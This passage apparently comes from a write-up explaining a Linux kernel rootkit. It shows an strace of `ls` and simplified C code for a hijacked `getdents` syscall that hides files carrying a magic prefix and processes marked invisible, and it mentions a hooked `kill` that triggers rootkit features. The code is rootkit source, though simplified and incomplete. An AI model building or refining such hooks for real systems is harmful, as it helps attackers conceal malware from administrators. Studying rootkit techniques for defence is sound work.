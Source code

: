 The function checks the signal number: if it's a "standard" value, it falls back to the original kill. Otherwise, it performs special actions, as described in the rootkit features. This is how features 2-3-4 are implemented!

### Hijacked `getdents`
`getdents`/`getdents64` is a kernel-level system call used by binaries such as `ls` and `ps`, which returns the content of a given `linux_dirent` object.
```sh
$ strace ls
execve("/usr/bin/ls", ["ls"], 0x7ffc33b35be0 /* 26 vars */) = 0
# [...]
getdents64(3, 0x62707550fab0 /* 9 entries */, 32768) = 264
getdents64(3, 0x62707550fab0 /* 0 entries */, 32768) = 0
# [...]
```

The (simplified) code for the hijacked version of `getdents` looks like this:
```c
int hacked_getdents(unsigned int fd, struct linux_dirent __user *dirent,
	    unsigned int count) {
    // first, we call the original system call
	int ret = orig_getdents(fd, dirent, count), err;

	unsigned short is_proc = 0;
	unsigned long off = 0;
	struct linux_dirent *dir;
	struct inode *d_inode;

    // if the syscall didn't return any entry (or there was an error),
    // there's no need to continue 
	if (ret <= 0)
		return ret;	
    // check if we are scanning processes (e.g., `ps`)
    // otherwise, we are scanning files/directories (e.g., `ls`)
	d_inode = current->files->fdt->fd[fd]->f_dentry->d_inode;
	if (d_inode->i_ino == PROC_ROOT_INO && !MAJOR(d_inode->i_rdev))
		is_proc = 1;
    // for each entry returned by the OG getdents
	while (off < ret) {
		dir = (void *)dirent + off;
		if (
            // target is a file and starts with the magic prefix
            (!is_proc && memcmp(MAGIC_PREFIX, dir->d_name, strlen(MAGIC_PREFIX)) == 0)
		    || /* OR */
            // target is a process and has been set as invisible
            (is_proc && is_invisible(simple_strtoul(dir->d_name, NULL, 10))
        )) {
			/* REMOVE TARGET FROM THE ENTRIES */
		} else {
			/* KEEP THE TARGET */
        }
		off += dir->d_reclen;
	}   
    return ret;
}
```
The function calls the original `getdents`, and filters its output as described in the rootkit features. This is how features 1-2-5 are implemented!
